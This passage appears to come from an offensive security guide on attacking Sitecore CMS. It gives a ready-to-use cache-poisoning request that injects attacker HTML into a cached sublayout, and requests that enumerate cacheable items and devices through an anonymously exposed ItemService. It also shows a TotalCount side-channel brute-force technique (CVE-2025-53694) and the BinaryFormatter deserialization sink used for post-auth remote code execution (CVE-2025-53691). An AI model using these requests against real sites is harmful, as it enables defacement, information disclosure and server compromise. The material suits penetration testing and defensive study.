 Example targeted poisoning for a known sublayout:

```
__PARAMETERS=AddToCache("/layouts/Sample+Sublayout.ascx_%23lang:EN_%23login:False_%23qs:_%23index","<html>…attacker HTML…</html>")&__SOURCE=ctl00_ctl00_ctl05_ctl03&__ISEVENT=1
```

## Enumerating cacheable items and “vary by” dimensions

If the ItemService is (mis)exposed anonymously, you can enumerate cacheable components to derive exact keys.

Quick probe:

```
GET /sitecore/api/ssc/item
// 404 Sitecore error body → exposed (anonymous)
// 403 → blocked/auth required
```

List cacheable items and flags:

```
GET /sitecore/api/ssc/item/search?term=layouts&fields=&page=0&pagesize=100
```

Look for fields like Path, Cacheable, VaryByDevice, VaryByLogin, ClearOnIndexUpdate. Device names can be enumerated via:

```
GET /sitecore/api/ssc/item/search?term=_templatename:Device&fields=ItemName&page=0&pagesize=100
```

### Side‑channel enumeration under restricted identities (CVE-2025-53694)

Even when ItemService impersonates a limited account (e.g., ServicesAPI) and returns an empty Results array, TotalCount may still reflect pre‑ACL Solr hits. You can brute‑force item groups/ids with wildcards and watch TotalCount converge to map internal content and devices:

```
GET /sitecore/api/ssc/item/search?term=%2B_templatename:Device;%2B_group:a*&fields=&page=0&pagesize=100&includeStandardTemplateFields=true
→ "TotalCount": 3
GET /...term=%2B_templatename:Device;%2B_group:aa*
→ "TotalCount": 2
GET /...term=%2B_templatename:Device;%2B_group:aa30d078ed1c47dd88ccef0b455a4cc1*
→ narrow to a specific item
```

## Post‑auth RCE: BinaryFormatter sink in convertToRuntimeHtml (CVE-2025-53691)

Sink:

```csharp
// Sitecore.Convert
byte[] b = Convert.FromBase64String(data);
return new BinaryFormatter().Deserialize(new MemoryStream(b));
```
